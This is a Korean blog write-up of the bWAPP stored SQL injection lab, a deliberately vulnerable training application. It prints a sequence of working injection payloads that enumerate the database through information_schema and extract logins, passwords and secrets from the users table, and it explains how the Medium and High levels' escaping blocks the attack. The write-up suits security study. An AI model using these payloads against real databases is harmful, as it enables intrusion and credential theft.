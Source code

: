 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Stored (Blog)
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image.png)
- 사용자의 입력값이 DB 에 저장된 후 불러와 다시금 출력하는 듯 하다.

![그림 1-2](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image2.png)
- 사용자의 입력값이 Entry에 입력되는 걸 확인 할 수 있다.
- 이럴 경우 보통 XSS 공격만 테스트 하고 넘어가는 경우가 많다.
- 하지만 DB에 저장된 값을 SQL 구문을 통해 불러오거나 저장하는 경우 SQL Injection도 충분히 일어날 수 있다.

![그림 1-3](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image3.png)
- ‘(싱글쿼터) 입력시 DBMS Error가 발생하는 것을 볼 수 있다.

```sql
$sql = "INSERT INTO blog (date, entry, owner) VALUES (now(),'" . $entry . "','" . $owner . "')";
```

> INSERT 절을 통해 입력 되는 SQL 구문은 위와 같다.

```sql
test',select(select 1))--
```

![그림 1-4](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image4.png)
- select 1 을 사용하여 테스트 해본 결과 1이 정상적으로 출력되고 있다.

```sql
test',(select schema_name from information_schema.schemata limit 1,1))--
```

![그림 1-5](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image5.png)
- Union Based를 사용하여 bWAPP 데이터베이스를 확인했다. 이와 같이 INSERT 절에 중첩SELECT절을 사용하여 공격을 진행할 수 있다.

```sql
test',(select table_name from information_schema.tables where table_schema='bWAPP' limit 3,1))--
```

![그림 1-6](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image6.png)
- users 라는 테이블도 확인했다.

```sql
test',(select column_name from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 1,1))--
```

![그림 1-7](assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image7.png)
- 각각의 컬럼명도 획득할 수 있다.

```sql
test',(select concat(login,0x3a,id,0x3a,password,0x3a,secret) from bWAPP.users limit 1,1))--
```

![그림 1-8](assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image8.png)
- 데이터 추출에 성공했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.
